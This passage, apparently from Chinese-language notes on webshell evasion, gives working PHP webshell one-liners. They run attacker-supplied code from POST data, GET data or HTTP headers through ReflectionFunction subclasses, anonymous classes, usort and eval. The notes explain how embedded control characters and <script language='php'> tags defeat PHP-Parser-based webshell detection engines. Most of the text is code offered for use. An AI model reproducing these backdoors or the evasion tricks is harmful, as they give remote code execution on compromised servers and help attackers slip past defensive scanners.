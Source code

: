 **类的继承**

```php
<?php
class test extends ReflectionFunction {}
$f = new test($_POST['name']);
$f->invoke($_POST[2333]);
```

php7匿名类

```php
<?php
$f = new class($_POST['name']) extends ReflectionFunction {};
$f->invoke($_POST[2333]);
```

**变长参数**

```php
<?php
usort(...$_GET);
```

**控制字符**

`[x00-x20]` PHP引擎会忽略这些控制字符，正确执行PHP函数；而PHP-Parser是无法正确解析的这些包含控制字符的函数的，可绕过一些具有语法解析的Webshell检测引擎：

```php
<?php eval\x01\x02($_POST[2333]);
```
其中\x01\x02需要转换成实际的字符。
**利用PHP标签识别差异**

![](https://p3.ssl.qhimg.com/t01730f06adbc81b17f.png)

而PHP-Parser只支持前两个标签，传入一个由 `<script>` 标签构造的 `Webshell` ，不识别该标签的检测引擎就会出现绕过：

```php
<script language="php">
  eval($_POST[2333]);
</script>
```

上面的方法同样可以配合各种绕过方式提高绕过的可能性。

####  一些有用的函数和调用

\- ``get_defined_vars()``

  获取文件中全部变量，包括include

\- ``eval(end(getallheaders()))``

  利用``HTTP``最后的一个``header``传参

\- ``eval(getallheaders(){'a'})``

  利用``HTTP``名为``a``的``header``传参

\- ``error_reporting(E_ALL);``
